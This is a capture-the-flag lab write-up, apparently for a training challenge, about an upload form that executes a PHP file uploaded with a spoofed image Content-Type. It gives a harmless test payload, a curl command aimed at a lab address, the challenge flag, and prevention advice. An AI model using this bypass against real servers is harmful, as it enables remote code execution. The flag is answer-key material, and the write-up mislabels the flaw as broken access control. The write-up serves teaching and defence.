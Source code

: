 # File Upload Vulnerability

## Overview

A **Broken Access Control** was discovered, allowing attackers to bypass file type restrictions and execute malicious scripts on the server. This issue demonstrates insufficient validation of uploaded files, potentially leading to remote code execution (RCE).

## Methodology

1. **Initial Testing**

   - Uploaded corrupted `.jpg` files containing JavaScript `alert` payloads to test if the server would execute them.
   - The server accepted the files but only displayed an upload success message, without executing the embedded payload.

2. **Exploitation**

   - Uploaded a `.php` file disguised as an image by manipulating the `Content-Type` header.
   - The server saved the file and executed it successfully, confirming the vulnerability.

3. **Reproduction Steps**
   - Create a PHP file (`test.php`) with the following payload:
     ```php
     <?php echo "bonjour"; ?>
     ```
   - Use the following cURL command to upload the file:
     ```bash
     echo "<?php echo 'bonjour'; ?>" > test.php
     curl -X POST \
         -F "MAX_FILE_SIZE=100000" \
         -F "uploaded=@test.php;type=image/jpeg" \
         -F "Upload=Upload" \
         http://192.168.122.121/?page=upload
     ```
   - Access the uploaded file on the server to observe its execution.

## Flag

- **Flag**: 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8

---

## How to Prevent Broken Access Control Vulnerabilities

1. **Restrict Allowed File Types**

   - Validate file types on both client and server sides using a strict whitelist of permitted extensions.

2. **Content Validation**

   - Inspect uploaded file content to ensure it matches the expected file type (e.g., validate MIME types).

3. **Rename Uploaded Files**

   - Rename uploaded files to remove executable extensions or special characters.

4. **Store Files Securely**

   - Save uploaded files outside the web-accessible root directory.

5. **Restrict Execution Permissions**

   - Configure the server to prevent execution of uploaded files (e.g., disable script execution in upload directories).

6. **Use Secure Libraries**

   - Employ secure libraries or frameworks for handling file uploads.

7. **Monitor and Audit**
   - Regularly monitor uploaded files and audit upload processes for security issues.

